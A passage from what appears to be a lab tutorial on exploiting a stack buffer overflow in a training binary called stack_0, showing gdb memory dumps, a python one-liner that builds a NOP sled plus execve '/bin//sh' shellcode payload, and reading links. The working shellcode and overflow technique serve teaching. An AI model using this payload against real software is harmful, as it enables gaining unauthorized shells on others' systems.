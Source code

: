     root@local:~/Desktop/Stack# gdb -q stack_0 core
    Reading symbols from stack_0...(no debugging symbols found)...done.
    [New LWP 19027]
    Core was generated by `./stack_0'.
    Program terminated with signal SIGSEGV, Segmentation fault.
    #0  0xffffd65c in ?? ()
what about our eip?

    gdb-peda$ x/8x $eip
    0xffffd65c:     0x00000000      0xffffd680      0x565561e4      0xffffd66c
    0xffffd66c:     0x41414141      0x41414141      0x41414141      0x41414141

Oh ! its `0x00000000` ? What the hell ? Where is the NOP and shellcode?

    gdb-peda$ x/32x $eip+0x14
    0xffffd670:     0x41414141      0x41414141      0x41414141      0x41414141
    0xffffd680:     0x41414141      0xffffd65c      0x90909090      0x90909090
    0xffffd690:     0x90909090      0x90909090      0x90909090      0x90909090
    0xffffd6a0:     0x90909090      0x90909090      0x90909090      0x90909090
    0xffffd6b0:     0x895e1feb      0xc0310876      0x89074688      0x0bb00c46
    0xffffd6c0:     0x4e8df389      0x0c568d08      0xdb3180cd      0xcd40d889
    0xffffd6d0:     0x00000000      0x00000000      0x00000001      0x56556080
    0xffffd6e0:     0x00000000      0xf7fea350      0xf7fe4f60      0x56559000
We can see the stack address is changed from outside of gdb. If we use `
0xffffd6a0` as new eip , it will go to shellcode.
 It also not work in my machine.
**Changing Shellcode**

    python -c 'print "A"*24+"\x9c\xd6\xff\xff"+"\x90"*40+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"' > payload_0.txt
I changed shellcode form [this](http://shell-storm.org/shellcode/files/shellcode-811.php)

    root@local:~/Desktop/Stack# cat payload_0.txt | ./stack_0                       AAAAAAAAAAAAAAAAAAAAAAAA▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒1▒Ph//shh/bin▒▒▒°
         ̀1▒@̀

**Exercises**
protostar stack exercises

**Further Reading**
http://phrack.org/issues/49/14.html

Shell coder Handbook

Hacking : The art of exploitation

**Inspiration**
https://exploit.courses/#/challenge/11

https://github.com/nnamon/linux-exploitation-course/blob/master/lessons/4_classic_exploitation/lessonplan.md

